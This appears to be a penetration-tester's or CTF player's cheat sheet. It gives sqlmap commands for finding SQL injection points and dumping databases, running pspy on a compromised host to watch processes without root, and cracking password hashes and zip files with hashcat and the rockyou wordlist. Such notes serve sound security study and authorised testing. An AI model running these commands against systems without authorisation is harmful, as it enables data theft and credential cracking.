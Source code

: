 ### SQLmap to find injection point
#### DB Banner
`sqlmap -u {url} -b`  
#### List All DBs
`sqlmap -u {url} --dbs`
#### List All Tables
`sqlmap -u {url} --current-db {db name} --tables`
#### List Table Columns
`sqlmap -u {url} --current-db {db name} -T {table} --columns`  
#### Dump Table Records
`sqlmap -u {url} --current-db {db name} -T {table} -C {column,names} --dump`

### Testing forms
`sqlmap -u {url} --forms`

### Further Resources
[PayloadAllTheThings SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)   
[PayloadAllTheThings NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)  

---
---

## Monitor Processes w/o Root
[pspy](https://github.com/DominicBreuker/pspy) is a command line tool designed to snoop on processes without need for root permissions. Copy file from attack machine to compromised machine `chmod +x pspy64` to make executable and then execute with `./pspy64`

---
---
## Hashcat
- --force = ignore warnings
- -m = mode
- -a = attack mode
- -o = output file 
- --remove = remove cracked hashes from source file  

`hashcat --force -m {mode} -a 0 -o results.txt --remove {hashfile.hash} /usr/share/wordlists/rockyou.txt`  
```
crack zip files


zip2john zip.zip | cut -d ':' -f 2 > hashes.txt

-- edit zip hash to match example: $zip2$*0*3*0*b5d2b7bf57ad5e86a55c400509c672bd*d218*0**ca3d736d03a34165cfa9*$/zip2$

hashcat -a 0 -m 13600 hashes.txt /usr/share/wordlists/rockyou.txt
```
